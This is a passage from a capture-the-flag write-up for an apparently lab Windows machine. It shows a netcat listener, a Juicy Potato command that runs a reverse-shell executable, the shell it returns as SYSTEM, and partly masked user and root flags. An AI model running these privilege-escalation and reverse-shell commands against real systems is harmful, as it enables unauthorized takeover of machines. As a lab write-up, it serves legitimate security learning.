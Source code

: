 we can start our `nc` listener and run `Juicy Potato`.

```bash
$ rlwrap nc -lvnp 1337            
listening on [any] 1337 ...
```

```
C:\temp> juicypotato86.exe -l 1337 -p reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
Testing {03ca98d6-ff5d-49b8-abc6-03dd84127020} 1337
......
[+] authresult 0
{03ca98d6-ff5d-49b8-abc6-03dd84127020};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

On our listener, we get a connection as `SYSTEM`!

```bash
$ rlwrap nc -lvnp 1337            
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.5] 49173
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

# user.txt

The user flag is located in the desktop of `babis`.

```
C:\Users\babis\Desktop> type user.txt.txt
9ecdXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# root.txt

The root flag is in `Administrator''s desktop, as always.

```
C:\Users\Administrator\Desktop>type root.txt.txt
e621XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```


### Rooted ! Thank you for reading and look forward for more writeups and articles !
